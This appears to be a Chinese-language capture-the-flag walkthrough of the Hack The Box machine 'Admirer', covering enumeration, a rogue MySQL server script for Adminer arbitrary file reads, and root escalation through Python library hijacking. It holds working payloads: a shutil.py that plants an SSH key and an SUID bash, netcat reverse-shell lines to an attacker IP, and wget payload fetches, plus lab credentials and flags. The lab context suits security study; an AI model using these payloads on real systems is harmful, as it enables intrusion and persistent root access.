# 零.剧情简介

```c
Admirer 是一个简单难度的 Linux 主机，具有一个易受攻击的 Adminer 版本（由底层的 MySQL 协议漏洞引起）
以及一个有趣的 Python 库劫持向量。
经过彻底的枚举，许多信息片段可以组合在一起，以获取立足点，然后提升权限至 root。
```

## 1.技能要求

```c
基本网络枚举
基本 Linux 枚举
```

## 2.技能

```c
通过 Adminer 利用 MySQL 的任意文件读取漏洞
Python 库劫持
```

## 3.目录

```C
01:15 - 通过不运行脚本快速进行 nmap 扫描，以获取开放端口，然后使用该输出来运行脚本。
04:50 - 检查 Web 服务器，发现 robots.txt。
07:55 - 使用带有 txt 和 php 扩展名的 gobuster 在 admin 目录上运行。
11:15 - 在 admin 目录中找到 credentials.txt。
13:15 - 登录 FTP，发现网页目录源代码。
21:30 - 再次使用 gobuster 在 utility-scripts 上发现 adminer.php。
24:55 - 前往 adminer 尝试登录。
27:10 - 通过创建一个 MySQL 数据库绕过 adminer 认证。
31:45 - 无法在 adminer 中放置文件。
34:30 - 使用 LOAD DATA LOCAL 将文件插入到我们的数据库中。
38:05 - 将服务器的 index.php 上传到我们的数据库中，并发现密码。
39:00 - 使用之前找到的密码 SSH 登录服务器。
41:50 - sudo 允许我们设置环境变量，使用 PYTHONPATH 劫持 python 库... 未能获取反向 shell。
49:00 - 切换到 nc 获取反向 shell，并获得 root shell！
```

# 一.nmap

## 1.扫描方式

### (1.复杂扫描

```c
ports=$(nmap -p- --min-rate=1000 -T4 10.129.229.101 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.229.101
```


### (2.效率扫描

```c
nmap -sT -p- --min-rate 5000 -oA nmap/admirer 10.129.229.101//要有nmap文件夹
nmap -sT -p 21,22,80 -sC -sV -oA scans/nmap-tcpscripts 10.129.229.101//要有scans文件夹
less nmap/nmap-tcpscripts
```




### (3.普通扫描

```c
nmap -v -sC -sV nmap 10.129.229.101
```


## 2.端口总结

```c
目标主机的IP地址：10.129.229.101
发现的开放端口和服务：
    21/tcp：FTP服务，版本为vsftpd 3.0.3
    22/tcp：SSH服务，版本为OpenSSH 7.4p1 Debian 10+deb9u7
    80/tcp：HTTP服务，运行Apache httpd 2.4.25 （Debian）
HTTP服务的一些细节：
    网站标题为 "Admirer"
    通过robots.txt文件发现了一个禁止访问的目录 "/admin-dir"
这些信息可以帮助你进一步对目标主机进行分析和攻击。
```


# 二.80端口渗透测试

## 1.探索

### (1.功能发现

```c
直接访问80端口,是个艺术界面,点击下方可以看到登录口
```




### (2.语言类型判断

#### 1).Java

```c
对于Java网站，可能会在响应头中看到 
    "X-Powered-By: Servlet"、"Server: Apache-Coyote"、"Server: Tomcat" 等标识
    这表明网站是由Java Servlet容器（如Apache Tomcat）驱动的。
```

#### 2).php

```c
http://10.129.229.101/index.html
http://10.129.229.101/index.php
```




## 2.目录爆破

```c
gobuster dir -u http://10.129.229.101/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster-root.out
```



### (1.字典筛查机制

```c
如果我们判断网站 必然存在某个字段,但是不确定字典是否合适
```

```c
grep '.git' /usr/share/wordlists/dirbuster/directory-list*| grep :.git
    
//从指定的wordlist文件中查找包含.git的条目，并进一步筛选出包含:.git的行
```



### (2.访问root.txt

```c
"curl http://10.129.229.101/robots.txt"
    //  发现了/admin-dir
```



### (3.正常爆破

```c
gobuster dir -u http://10.129.229.101 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 20 po scans/gobuster-root-medium-php
```

```c
发现了以下目录/index.php (Status: 200)
            /assets (Status: 301)
            /images (Status: 301)
            /server-status (Status: 403)
```




```c
延续/admin-dir继续爆破

gobuster dir -u http://10.129.229.101/admin-dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip,html -t 20 -o scans/gobuster-admindir-medium-php_txt_html_zip
```

```c
发现了以下目录/contacts.txt (Status: 200)
           /credentials.txt (Status: 200)
```



### (4.发现了目标

#### 1).contacts.txt

```c
curl http://10.129.229.101/admin-dir/contacts.txt
```

```c
看到了不少邮箱
```



#### 2).credentials.txt

```c
curl http://10.129.229.101/admin-dir/credentials.txt
```

```c
很有可能发现了密码
/***********************************
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
************************************/
```




# 三.拿shell

## 1.拿到ftp权限

```C
wget --user ftpuser --password '%n?4Wz}R$tTF7' -m ftp://10.129.229.101

//递归地下载所有文件
```





### (1.分析源代码

#### 1).查看html.tar.gz

```c
tar ztf html.tar.gz --exclude "*/*"
tar ztf html.tar.gz
```




```c
查看index.php 发现还有数据库的连接信息
"tar -zxvf html.tar.gz"
"cat index.php"
/********************************************************************
     $servername = "localhost";
     $username = "waldo";
     $password = "]F7jLHw:*G>UPrTo}~A"d6b";
     $dbname = "admirerdb";
*******************************************************************/
```



#### 2).查看utility-scripts

```c
还有一个gobuster尚未发现的新目录/utility-scripts
```



```c
admin_tasks.php是一个运行命令的脚本，但不能以我能找到的任何方式注入。
info.php只是一个 PHPInfo 页面，phptest.php就像一个 hello world。
db_admin.php很有趣，尽管它乍一看很简单：
//TODO: 完成实现此功能，或者找到更好的开源替代方案
    
    "cat db_admin.php"
/*****************************************
  $servername = "localhost";
  $username = "waldo";
  $password = "Wh3r3_1s_w4ld0?";
**************************************/
```



#### 3).兔子漏洞

```c
此时我花了一些时间寻找兔子洞：试图注入到admin_tasks.php.
                         运行更多内容gobusters来查找其他页面。
                         尝试通过 PHPInfo 执行（就像在Nineveh中一样）。
```


## 2.登录后台

### (1.寻找登陆界面

```c
通过已有的/utility-scripts目录进行 继续爆破,然后发现了
   "10.129.229.101/utility-scripts/adminer.php"
```

```c
管理员界面给了我使用权到我想连接的任何数据库。
因此，我需要的凭据与我正在登录的数据库相关联。
不幸的是，FTP 源代码中的凭据无法连接到 Admirer 上的数据库。

虽然我无法得到使用权对于 Admirer 上的任何数据库，我都可以连接到本地计算机上的数据库。
这仍然会提供本地文件使用权对于 www-data 进程可以从 Admirer 读取的任何内容
使用如下 SQL：
```



### (2.开始爆破_字典

```c
/****************************************************
w.cooper@admirer.htb    fgJr6q#S\W:$P
ftpuser                 %n?4Wz}R$tTF7
admin                   w0rdpr3ss01!
waldo                   ]F7jLHw:*G>UPrTo}~A"d6b
waldo                   Wh3r3_1s_w4ld0?
    
$dbname = "admirerdb";
********************************************************/
```

### (3.开始搜索版本

```c
谷歌搜索 adminer 4.6.2
```






## 3.创建MySQL数据库绕过adminer认证

### (1.数据库配置

#### 1).安装数据库

```c
//如果尚未安装MySQL或MariaDB服务器和客户端，请执行以下命令。
"apt install mariadb-server mariadb-client"
"systemctl start mariadb"
```



#### 2).设置密码

```c
//MariaDB的root密码默认情况下未设置，因此我们将其设置为不容易猜到的密码。
mysql -u root -p
ALTER USER 'root'@'localhost' IDENTIFIED BY 'DontExploitMePls';
```



#### 3).创建数据库

```mysql
/********************************************************
接下来，我们可以创建一个数据库，以及一个低权限的用户，该用户可以用于远程连接。
请注意，我们指定了backup@10.129.229.101，因为backup@localhost将是一个不同的用户
并且无法从10.129.229.101进行连接。

被害方:10.129.229.101
进攻方:10.10.14.20
*******************************************************/


CREATE DATABASE backup_DB; 
USE backup_DB; 
CREATE TABLE backup(name VARCHAR(2000));
CREATE USER 'backup'@'10.129.229.101' IDENTIFIED BY 'DontExploitMePls';
GRANT ALL PRIVILEGES ON backup_DB.* TO 'backup'@'10.129.229.101';
```






#### 4).更改数据库配置

```c
"sudo vi /etc/mysql/mariadb.conf.d/50-server.cnf"
主要是把bind-address 更改为 10.10.14.20 //进攻方的IP
/********************************************************************
    `/etc/mysql/mariadb.conf.d/50-server.cnf` 是 MariaDB 的配置文件之一
    用于配置 MariaDB 服务器的各种参数和选项。
    在这个特定的文件中，"50" 表示配置文件的优先级，因为它决定了在加载过程中的顺序。
    这个文件通常包含服务器的全局设置，比如端口号、日志配置、字符集设置等。
************************************************************************/
```



#### 5).检查_启动

````c
"sudo service mysql restart"//开放3306端口
"ss -lnpt | grep 3306"//查看是否打开3306端口
````



### (2.mysql数据库通用查找

```c
密码是 DontExploitMePls
```





#### 1).如何寻找adminer语法

```c
谷歌搜索 "adminer 4.6.2 exploit"
    现在时间是2024年的3月29日,谷歌搜索这漏洞已经烂大街了,多为如何利用
    原理介绍就非常的少了
    但是 2021年1月24日,相关的文档还比较少看截图
    
https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool
```





#### 2).漏洞原理

```C
https://www.vesiluoma.com/abusing-mysql-clients
```








```PYTHON
#!/usr/bin/python
#coding: utf8
import socket

# linux :
filestring = "/etc/hosts"
# windows:
#filestring = "C:\\Windows\\system32\\drivers\\etc\\hosts"
HOST = "0.0.0.0" # open for eeeeveryone! ^_^
PORT = 3306
BUFFER_SIZE = 1024

#1 Greeting
greeting = "\x5b\x00\x00\x00\x0a\x35\x2e\x36\x2e\x32\x38\x2d\x30\x75\x62\x75\x6e\x74\x75\x30\x2e\x31\x34\x2e\x30\x34\x2e\x31\x00\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00"
#2 Accept all authentications
authok = "\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00"

#3 Payload
payloadlen = "\x0b" 
padding = "\x00\x00"
payload = payloadlen + padding +  "\x0b\x00\x00\x01\xfb\x2f\x65\x74\x63\x2f\x68\x6f\x73\x74\x73"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((HOST, PORT))
s.listen(1)

while True:
    conn, addr = s.accept()

    print 'Connection from:', addr
    conn.send(greeting)
    while True:
        data = conn.recv(BUFFER_SIZE)
        print " ".join("%02x" % ord(i) for i in data)
        conn.send(authok)
        data = conn.recv(BUFFER_SIZE)
        conn.send(payload)
        print "[*] Payload send!"
        data = conn.recv(BUFFER_SIZE)
        if not data: break
        print "Data received:", data
        break
    # Don't leave the connection open.
    conn.close()
```




#### 3).漏洞执行

```c
10.129.229.101/utility-scripts/adminer.php
```



##### (1).出错了

```c
LOAD DATA LOCAL INFILE '/opt/scripts/admin_tasks.sh'
INTO TABLE backup
FIELDS TERMINATED BY "\n"
```



##### (2).phpinfo

```c
10.129.229.101/utility-scripts/info.php
```



```c
然而，我们收到了上述错误，原因是由于 open_basedir 限制。
    在检查之前识别的 phpinfo 文件时
    我们可以看到服务器上允许的 open_basedir 目录为 /var/www/html
    也就是只能访问/var/www/html。
    
此外，我们还记得 index.php 文件的备份包含了凭据。
    让我们尝试读取这个文件。
    由于我们当前位于 utility-scripts/ 目录中，所以指定了一个 ../
```

##### (3).数据库通用查找成功

```c
LOAD DATA LOCAL INFILE '../index.php'
INTO TABLE backup
FIELDS TERMINATED BY "\n"
//也就是说/var/www/html/index.php,劫持成功
```



```c
SELECT * FROM `backup` LIMIT 50
/***********************************
这是一个 SQL 查询语句，其含义为从名为 `backup` 的数据库表中检索所有列的数据
并限制结果集最多返回 50 条记录。 
`SELECT *` 表示选择所有列，而 `FROM backup` 指定了要查询的数据库表。
`LIMIT 50` 表示只返回最多 50 条记录。
***********************************/
```







##### (4).九头蛇字典爆破

```c
hydra -L user.txt -P password.txt ssh://10.129.229.101
/****************************************************
w.cooper@admirer.htb    fgJr6q#S\W:$P
ftpuser                 %n?4Wz}R$tTF7
admin                   w0rdpr3ss01!
waldo                   ]F7jLHw:*G>UPrTo}~A"d6b
waldo                   Wh3r3_1s_w4ld0?
waldo                   &<h5b~yK3F#{PaPB&dA}{H>

$dbname = "admirerdb";
********************************************************/
```




### (3.ssh连接

```c
ssh waldo@10.129.229.101
&<h5b~yK3F#{PaPB&dA}{H>
```



#### 1).user.txt

```c
"cat user.txt"
4a853e0b05d0667e066253cf4771207b
```




# 四.提权

## 1.验证密码凭证

```c
"cd /var/backups/"
"ls -la"
/******************************************************
- 进入用于备份的目录，其中每个人都可以读取，但不是所有人都能读取文件。
- 计算整个 HTML 文件的 MD5 哈希值，并将其存储为 7f44。
- 计算 HTML 文件的 MD5 哈希值，并将其存储为 gz。
- 比较两个哈希值，如果不同，则表示 HTML 文件已经发生了变化。
***********************************************************/
```



```c
"md5sum html.tar.gz"
```



```C
cp html.tar.gz /dev/shm
cd /dev/shm
tar -zxvf html.tar.gz
```





```C
"ls"
"less index.php"
//ok,安全凭证都一样
```





## 2.提权

```c
"sudo -l"
```



```c
两大收获：我可以以 root 身份运行这个脚本。我需要检查一下。
        有一个我在 HTB 上不常见的标签，SETENV.
/*************************************************************
sudo 语法分析

在没有关于 SETENV 的预先知识的情况下，弄清楚它的含义，并了解 sudo 如何处理环境变量似乎很重要。通过将 sudoers 手册页与此配置中的内容进行对比，在 flags 中，有一个 env_reset，基本上意味着，由于没有 env_keep 设置，waldo 的任何环境变量都不会被传递：

如果设置了 env_reset，sudo 将在最小化的环境中运行命令，该环境包含 TERM、PATH、HOME、MAIL、SHELL、LOGNAME、USER、USERNAME 和 SUDO_* 变量。然后，将添加调用者环境中与 env_keep 和 env_check 列表匹配的任何变量，以及由 env_file 选项指定的文件中存在的任何变量（如果有的话）。在用 root 以 -V 选项运行 sudo 时，默认显示 env_keep 和 env_check 列表的内容。如果设置了 secure_path 选项，则其值将用于 PATH 环境变量。此标志默认为开启状态。

接下来，SETENV 标签表示，作为调用者，我可以通过 -E 选项或在调用 sudo 时在命令行上设置变量来覆盖 env_reset：

SETENV 和 NOSETENV

这些标签可以按照每个命令的方式覆盖 setenv 选项的值。请注意，如果为某个命令设置了 SETENV，则用户可以通过命令行上的 -E 选项禁用 env_reset 选项。此外，通过命令行设置的环境变量不受 env_check、env_delete 或 env_keep 强制执行的限制。因此，只有信任的用户才应该允许以这种方式设置变量。如果命令匹配为 ALL，则为该命令隐含 SETENV 标签；可以通过使用 NOSETENV 标签来覆盖此默认设置。

secure_path 也在 env_reset 页面中提到，并在此处设置。它防止 sudo 调用者设置 $PATH 变量：

secure_path 用于从 sudo 运行的每个命令的路径。如果您不信任运行 sudo 的人具有合理的 PATH 环境变量，您可能希望使用此选项。另一个用途是，如果您想要将“根路径”与“用户路径”分开。免除 secure_path 选项影响的组中的用户不受影响。此选项默认未设置。

关于 sudo 如何处理环境变量的最后一件事是，它有一个“不良”变量列表，即使使用 -E，这些变量也不会传递到新命令中，如此帖子所解释的。但该帖子没有显示的是，这似乎不适用于内联传递的变量。
*************************************************************/
```


```c
"ls -la"
```



```c
"cd /opt"
"ls"
"cd scripts/"
"ls"
"vi admin_tasks.sh"
"vi backup.py"
```



### (1.代码审计

#### 1).backup.py

```python
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

```C
/**********************************************************************************
这段 Python 脚本的作用是
    将指定的源目录 `/var/www/html/` 打包成一个 `.tar.gz` 格式的压缩文件
    并将压缩文件保存到目标目录 `/var/backups/html` 中。

具体来说：
    - `src` 变量表示源目录，即需要打包的目录路径。
    - `dst` 变量表示目标目录，即打包后压缩文件的保存路径。
    - `make_archive(dst, 'gztar', src)` 是 `shutil` 模块中的函数
       用于创建压缩文件。它接受三个参数：目标路径、
                                   压缩文件类型（这里是 `'gztar'` 表示 `.tar.gz` 格式）
                                   源目录路径。

因此，该脚本的功能是将 `/var/www/html/` 目录打包成 `.tar.gz` 格式的压缩文件
并保存到 `/var/backups/html` 目录中。
**********************************************************************************/
```


#### 2).admin_tasks.sh

```bash
#!/bin/bash

view_uptime()
{
    /usr/bin/uptime -p
}

view_users()
{
    /usr/bin/w
}

view_crontab()
{
    /usr/bin/crontab -l
}

backup_passwd()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/passwd to /var/backups/passwd.bak..."
        /bin/cp /etc/passwd /var/backups/passwd.bak
        /bin/chown root:root /var/backups/passwd.bak
        /bin/chmod 600 /var/backups/passwd.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_shadow()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/shadow to /var/backups/shadow.bak..."
        /bin/cp /etc/shadow /var/backups/shadow.bak
        /bin/chown root:shadow /var/backups/shadow.bak
        /bin/chmod 600 /var/backups/shadow.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_db()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running mysqldump in the background, it may take a while..."
        #/usr/bin/mysqldump -u root admirerdb > /srv/ftp/dump.sql &
        /usr/bin/mysqldump -u root admirerdb > /var/backups/dump.sql &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}


# Non-interactive way, to be used by the web interface
if [ $# -eq 1 ]
then
    option=$1
    case $option in
        1) view_uptime ;;
        2) view_users ;;
        3) view_crontab ;;
        4) backup_passwd ;;
        5) backup_shadow ;;
        6) backup_web ;;
        7) backup_db ;;

        *) echo "Unknown option." >&2
    esac

    exit 0
fi


# Interactive way, to be called from the command line
options=("View system uptime"
         "View logged in users"
         "View crontab"
         "Backup passwd file"
         "Backup shadow file"
         "Backup web data"
         "Backup DB"
         "Quit")

echo
echo "[[[ System Administration Menu ]]]"
PS3="Choose an option: "
COLUMNS=11
select opt in "${options[@]}"; do
    case $REPLY in
        1) view_uptime ; break ;;
        2) view_users ; break ;;
        3) view_crontab ; break ;;
        4) backup_passwd ; break ;;
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done

exit 0

```

```c
/***************************************************************
这是一个 Bash 脚本，用于执行系统管理任务。主要包括以下功能：

    1. `view_uptime()`：查看系统的运行时间。
    2. `view_users()`：查看当前登录用户。
    3. `view_crontab()`：查看当前用户的 crontab。
    4. `backup_passwd()`：备份 `/etc/passwd` 文件到 `/var/backups/passwd.bak`。
    5. `backup_shadow()`：备份 `/etc/shadow` 文件到 `/var/backups/shadow.bak`。
    6. `backup_web()`：在后台运行备份脚本 `/opt/scripts/backup.py`。
    7. `backup_db()`：在后台运行 mysqldump 命令
                      备份数据库 `admirerdb` 到 `/var/backups/dump.sql`。

脚本包含两种执行方式：
    - 非交互式方式：通过命令行参数来执行指定的操作。
    - 交互式方式：提供一个菜单供用户选择执行的操作。

通过执行 `sudo -l` 命令可以看到，用户 `waldo` 具有执行 `/opt/scripts/admin_tasks.sh` 脚本的权限。
***************************************************************/


/********************************************************************
这段代码中，`backup_web` 函数是用来执行备份网站数据的操作的。
在交互式方式下，用户选择了选项 6，即执行备份网站数据的操作。
执行`backup_web`函数时，它会在后台运行备份脚本`/opt/scripts/backup.py`，并立即返回这意味着控制立即返回到了交互式菜单循环，而备份脚本在后台执行。

在这种情况下，如果你立即退出菜单循环，而备份脚本尚未完成执行，那么备份操作就不会完全生效。因此，如果你想要确保备份脚本完全执行，需要等待一段时间，直到备份操作完成。
这就是为什么你需要执行两次 `backup_web ; break ;;` 才能使备份文件在系统中生效。
*******************************************************************/
```

### (2.python库劫持

#### 1).搜索Python 的 sys 模块

```C
脚本本身并没有明显的不安全之处。 
事实证明，有一条可利用的途径backup.py。
    如上所示，我可以将 a 传递$PYTHONPATH到sudo.那么这个变量是什么？
    当 Python 脚本调用 时import，它会检查一系列模块路径。
    我可以通过模块看到这一点sys：
    
    python3 -c "import sys; print('\n'.join(sys.path))"
    
/****************************************************************************************
这段命令是使用 Python 解释器的 `-c` 参数来执行一行简单的 Python 代码。
具体来说：

    - `import sys`：导入 Python 的 sys 模块，该模块提供了对 Python 解释器的访问和控制。
    - `print('\n'.join(sys.path))`：将 Python 解释器中的模块搜索路径打印出来。
                                   `sys.path` 是一个包含 Python 解释器搜索模块路径的列表。
                                    这里使用了 `join()` 方法将列表中的路径连接成一个字符串
                                    并在每个路径之间添加了换行符 `\n`。

在输出结果中，你可以看到 Python 解释器搜索模块的路径列表，其中包括了系统默认的模块路径和安装的第三方模块路径。
***************************************************************************************/
```



#### 2).查看_添加python的环境变量

```c
/******************************************************************
第一个空行很重要, 是咱们用 '\n' 手动搞出来的
它在运行时用脚本的当前目录填充（因此如果 waldo 可以写入/opt/scripts，我可以通过这种方式利用它）。
在此系统上，$PYTHONPATH当前为空：
******************************************************************/
"cd /opt/scripts"
"echo $PYTHONPATH"
"export PYTHONPATH=/tmp"

/************************************************************************************
这段命令演示了如何设置和查看 Python 的环境变量 `PYTHONPATH`。

- `echo $PYTHONPATH`：用于查看当前环境中 `PYTHONPATH` 的设置。
                      在这个示例中，输出为空，表示当前环境中未设置 `PYTHONPATH`。

- `export PYTHONPATH=/tmp`：设置了环境变量 `PYTHONPATH` 的值为 `/tmp`
                            即将模块搜索路径设置为 `/tmp` 目录。

- `python3 -c "import sys; print('\n'.join(sys.path))"`：
                     运行 Python 解释器，并使用 `-c` 参数执行一行简单的 Python 代码。
                     代码中导入了 sys 模块，并打印了 Python 解释器中的模块搜索路径。
                     由于在前面设置了 `PYTHONPATH` 环境变量，因此在模块搜索路径的列表中
                     第一个路径就是 `/tmp` 目录，表明 Python 解释器会首先在该目录下搜索模块
                     
这意味着 Python 将首先尝试查找当前脚本目录
然后是 /tmp 目录，接着是 Python 的安装目录，以尝试加载 shutil 模块。
****************************************************************************************/
```

#### 3).寻找安全的可写挂载目录

```c
玩了几分钟这个盒子，很明显发现我每隔几分钟就会清除我创建的 /tmp 和 /home/waldo 目录下的文件。
无论如何，在那些地方工作并不明智。
我可以查看 /dev/shm，但它被挂载为 noexec：
"cd /opt/scripts"
"mount | grep shm"
/**********************************************************
这条命令的输出显示了系统中的共享内存（shared memory）文件系统的相关信息。
具体解释如下：
    - `tmpfs`: 这是一种基于内存的文件系统，用于临时存储数据。
    - `on /run/shm`: 这表示该 tmpfs 文件系统被挂载到 `/run/shm` 目录下。
    - `type tmpfs`: 这表示挂载的文件系统类型为 tmpfs。
    - `(rw,nosuid,nodev,noexec,relatime,size=1019440k)`: 
                    这是一组挂载选项，它们描述了文件系统的属性：
      - `rw`: 文件系统是可读写的。
      - `nosuid`: 禁止 setuid 和 setgid 权限。
      - `nodev`: 不允许在文件系统上创建设备文件。
      - `noexec`: 不允许在文件系统上执行可执行文件。
      - `relatime`: 使用相对时间来更新文件的访问时间。
      - `size=1019440k`: 文件系统的大小为约 1019440KB。
  ***********************************************************/
```


```c
find / -type d -writable 2>/dev/null | grep -v -e '^/proc' -e '/run'
    
/******************************************************************
我可以查找可写目录：
这个命令会在文件系统中查找所有可写的目录，并将结果显示出来。
这里的`-type d`表示查找目录，`-writable`表示查找可写的目录。
`2>/dev/null`是将标准错误重定向到空设备，以避免显示权限错误信息。
然后，通过`grep`命令过滤掉`/proc`和`/run`目录
因为它们通常是虚拟文件系统，不适合作为普通文件系统的一部分考虑。
******************************************************************/
```



#### 4).写入恶意文件

##### (1).进攻方法简要

```c
     `/var/tmp` 看起来是一个不错的选择
另外 `/home/waldo/.nano` 也是一个不错的选项。

如果这个方法有效，root 就会为我运行一些 Python 代码。
我的第一反应是使用反向 shell，但这可能会出现问题。
如果进程出错或结束，我的会话可能会跟着终止（实际上在这种情况下它会正常工作）。
这里有很多选择，但我将展示两种。

    1. 复制 /bin/bash 并将其设置为 root 拥有且 SUID 的文件。
    2. 将我的公钥写入 /root/.ssh/authorized_keys。

我将在本地计算机上编写一个 Python3 脚本来执行这两个操作：
```

##### (2).脚本shell.php

```python
#!/usr/bin/python3

import os
import subprocess

# 定义一个空函数 make_archive，因为它在脚本中没有使用
def make_archive(a, b, c):
    pass

# 创建/root/.ssh目录，并将 SSH 公钥写入 authorized_keys 文件
ssh_command = "mkdir -p /root/.ssh && echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDFFzFsH+WX95lqeCJkOp6cRZufRzw8pGqdoj1q4NL9LmPvtDCiGxsDb5D+vF6rXMrW0cqH3P4kYiTG8+RLrolGFTkR+V/2CXDmABQx5T640fCH77oiMF8U9uoKGS+ow5vA4Vq4QqKFsu+J9qn/sMbLCJ/874tay6a1ryPJdtjj0SxTems1p2WgklYiZZKKscmYH4+dMtHMdQAKv3CTpWbSE7De4UvAUFvxiKS1yHLh8QF5L0YCUZ42pNtzZ4CHPRojxJZKbOHhTOJms4CLi3CXN/ZEpPijt0mJaGrxnA3oOkOFIscqoeXYFybTs82KzKqwwP4Y6ACWJwk1Dqrv37I/L+9YU/8Rv5b+r0/c1p9lZ1pnnjRt46g/kocnY3AZxcbmDUHx5wAlsNwK8s5Aw+IOicBYCOIv2KyXUT61/lW2iUTBIiMh0yrqehLfJ7HS3pSycQnWdVPoRbmCfvuJqQGyaJMu+ceqYqpwHEBoUlIjKnSHF30aHKL5ALFREEo1FCc= root@kali' >> /root/.ssh/authorized_keys"
subprocess.run(ssh_command, shell=True)

# 将 /bin/bash 复制到 /var/tmp/.0xdf，并设置权限为 SUID
copy_bash_command = "cp /bin/bash /var/tmp/.0xdf && chown root:root /var/tmp/.0xdf && chmod 4755 /var/tmp/.0xdf"
subprocess.run(copy_bash_command, shell=True)

```

##### (3).上传

```c
进攻方"python3 -m http.server 8888"
被害方"cd /dev/shm"
    "wget 10.10.14.68:8888/exploit.py -O shutil.py"
```



```c
运行admin_tasks.sh调用 Web 备份选项 (6)
    "sudo PYTHONPATH=/var/tmp /opt/scripts/admin_tasks.sh 6"
    "&<h5b~yK3F#{PaPB&dA}{H>"
```

###### 方法一 SSH提权

```c
ssh -i ~/keys/id_rsa_generated root@10.10.10.187
```


###### 方法二SUID_bash提权

```C
cd /var/tmp
./.0xdf -p
id
```




###### 方法三python提权

```c
"vi shell.py"
```

```c
# -*- coding: utf-8 -*-

import os
import socket,subprocess

def make_archive(a, b, c):
    os.system("nc -e /bin/bash 10.10.14.68 9001")

# 调用 make_archive 函数
make_archive(None, None, None)
```

```c
进攻方"python3 -m http.server 8888"
被害方"cd /dev/shm"
    "wget 10.10.14.68:8888/shell.pyshell"
```



###### 方法四python两次执行_成功

进攻方

```c
nc -lvnp 9001
```

被害机两次执行

```c
which nc
```

```BASH
echo "import os" >> shutil.py
echo "def make_archive(x,y,z):" >> shutil.py
echo -e "\tos.system('/bin/nc 10.10.14.68 9001 -e /bin/bash')" >> shutil.py
sudo PYTHONPATH=/tmp/ /opt/scripts/admin_tasks.sh
&<h5b~yK3F#{PaPB&dA}{H>
    
echo "import os" >> shutil.py
echo "def make_archive(x,y,z):" >> shutil.py
echo -e "\tos.system('/bin/nc 10.10.14.68 9001 -e /bin/bash')" >> shutil.py
sudo PYTHONPATH=/tmp/ /opt/scripts/admin_tasks.sh
&<h5b~yK3F#{PaPB&dA}{H>
```

```C
/********************************************************************
admin_tasks.sh 是全具备份
这段代码中，`backup_web` 函数是用来执行备份网站数据的操作的。
在交互式方式下，用户选择了选项 6，即执行备份网站数据的操作。
执行`backup_web`函数时，它会在后台运行备份脚本`/opt/scripts/backup.py`，并立即返回这意味着控制立即返回到了交互式菜单循环，而备份脚本在后台执行。

在这种情况下，如果你立即退出菜单循环，而备份脚本尚未完成执行，那么备份操作就不会完全生效。因此，如果你想要确保备份脚本完全执行，需要等待一段时间，直到备份操作完成。
这就是为什么你需要执行两次 `backup_web ; break ;;` 才能使备份文件在系统中生效。
*******************************************************************/
```


###### root.txt

```C
64193c5b9fbf5bc8fb4755c48b96a43f
```




